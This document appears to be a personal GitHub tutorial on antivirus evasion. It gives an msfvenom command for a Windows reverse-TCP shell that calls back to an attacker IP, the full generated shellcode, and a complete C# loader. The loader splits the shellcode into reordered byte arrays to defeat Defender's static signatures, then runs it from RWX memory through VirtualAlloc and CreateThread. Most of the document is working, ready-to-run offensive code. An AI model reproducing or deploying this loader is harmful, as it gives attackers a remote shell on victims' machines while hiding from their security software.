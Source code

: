 # Antivirus Evasion - Part 1

Antivirus Software uses couple of techniques for code detection namely:

- Signature Static Scanning
- Behaiour Monitoring
- Run-time analysis
- AI detection and many other tricks.

## Bypassing Signature Static Scanning

We can change some byte to bypass static scanning. Original idea was showed by [ired teams](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change) but this, as stated by them, this trick soon became obselete since windows does detect the shellcode statically.

#### Steps

- Generate msf shellcode using normal procedure.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=80 -f csharp
```
Shellcode : 
```text
byte[] buf = new byte[324] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,
0x77,0x26,0x07,0xff,0xd5,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,
0x29,0x80,0x6b,0x00,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,
0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x05,0x68,0xc0,0xa8,0x7a,0x01,0x68,
0x02,0x00,0x00,0x50,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,
0xff,0xd5,0x85,0xc0,0x74,0x0c,0xff,0x4e,0x08,0x75,0xec,0x68,0xf0,0xb5,0xa2,
0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x00,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,
0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x01,0x01,0x8d,0x44,
0x24,0x10,0xc6,0x00,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,
0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,
0x30,0x68,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,
0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5 };
```
- Performed various changes to shellcode to avoid static shellcode detection. Althought the below code wont pass run time analysis of defender but it does bypass latest static based signature detection. Again, I could have used something else but main purpose was to code stuff to lean c# and windows also :)

Code:
```cs
using System;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(UInt32 lpAddress, UInt32 dWsize, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt32 dwCreationFlags, IntPtr lpThradId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliSeconds);

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        static void Main(string[] args)
        {
            byte[] buf = new byte[] {0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
                0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,
                0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,
                0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,
                0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
                0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,
                0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff};

            byte[] buff5 = new byte[] {
                0x54,0x68,0x4c,0x77,0x26,0x07,0xff,0xd5,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,
                0x80,0x6b,0x00,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,
                0xd5,0x97,0x6a,0x05,0x68,0xc0,0xa8,0x7a,0x01,0x68,0x02,0x00,0x00,0x50,0x89,0xe6,0x6a,0x10,0x56 };
            
            byte[] buff4 = new byte[] { 0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x00,0x89,0xe3,0x57,0x57,
                0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x01,0x01,0x8d,0x44,0x24,
                0x10,0xc6,0x00,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,
                0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,
                0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,
                0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5 };

            byte[] buff2 = new byte[] { 0x57, 0x68, 0x99, 0xa5, 0x74, 0x61, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0x0c, 0xff, 0x4e, 0x08, 0x75, 0xec, 0x68, 0xf0 };
            byte[] buff3 = new byte[] { 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x68, 0x33, 0x32, 0x00, 0x00, 0x68, 0x77, 0x73, 0x32, 0x5f };

            IntPtr tmp =IntPtr.Zero;

            IntPtr address = VirtualAlloc(0, 324, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, address, buf.Length);
            Marshal.Copy(buff3, 0, (IntPtr)((UInt32)address+buf.Length*sizeof(byte)), buff3.Length);
            Marshal.Copy(buff5, 0,(IntPtr)((UInt32)address+((buf.Length + buff3.Length)*sizeof(byte))), buff5.Length);
            Marshal.Copy(buff2, 0,(IntPtr)((UInt32)address + ((buf.Length + buff3.Length+buff5.Length) * sizeof(byte))), buff2.Length);
            Marshal.Copy(buff4, 0, (IntPtr)((UInt32)address + ((buf.Length + buff3.Length + buff5.Length+buff2.Length) * sizeof(byte))), buff4.Length);

            IntPtr theadHandle = CreateThread(0, 0, address, tmp, 0, tmp);
            WaitForSingleObject(theadHandle, 0xFFFFFFFF);
        }
    }
}
```
(The above code is for 32 bit. It would show overflow if ran in 64 bit since its uses UInt32)

### Pre-Requistes

- Below are the structures of the functions imported by kernel32.dll taken directly from Microsoft.

> VirtualAlloc
```
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```
> CreateThread
```
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```
> WaitForSingleObject
```
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```
- For conversion for unmanaged data type to managed data type refer below
![image](../images/unmamaged_managed.png)

### Reference

[Ired Team](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)
